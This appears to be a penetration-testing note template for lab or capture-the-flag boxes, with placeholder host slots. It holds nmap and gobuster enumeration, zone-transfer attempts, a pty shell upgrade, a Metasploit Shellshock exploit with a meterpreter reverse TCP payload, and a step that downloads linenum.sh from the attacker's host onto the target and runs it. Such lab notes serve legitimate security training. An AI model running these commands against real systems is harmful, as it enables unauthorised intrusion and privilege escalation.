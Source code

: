 # tempalte, flow

```sh
remote-host (ip): <rhostslot>
local-host (ip): <lhostslot>
```

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- <rhostslot>
  # rename-tab
  # sudo vim /etc/hosts
<rhostslot>    <name>
```

- nc

```sh
nc -v <rhostslot> <port>
nc -vC <rhostslot> <port>
```

## web enum

### gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://<rhostslot>/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://<rhostslot>/cgi-bin/ -w $dict -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

### dns recon

```sh
nslookup
  # AD, find DC, etc.

# try zone transfer
host -l <rhostslot> <dnsServer>
dnsrecon -d <rhostslot> -t axfr
  # dnsrecon -d megacorpone.com -t axfr
```

## usermode

### searchsploit

```sh
search keywords
searchsploit keywords
```

### interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## post enum

```sh
ps aux
sudo -l
```

### privilege escalation

```sh
```

## msf

```msfconsole
msf> search <keywords>
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS <rhostslot>
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```

## util

+ rhost

```sh
wget <lhostslot>:8000/linenum.sh -O /tmp/linenum.sh
bash /tmp/lineum.sh > /tmp/linenumOut.md

python -m SimpleHTTPServer 8000 /tmp
```

+ lhost

```sh
wget <rhostslot>:8000/linenumOut.md
```
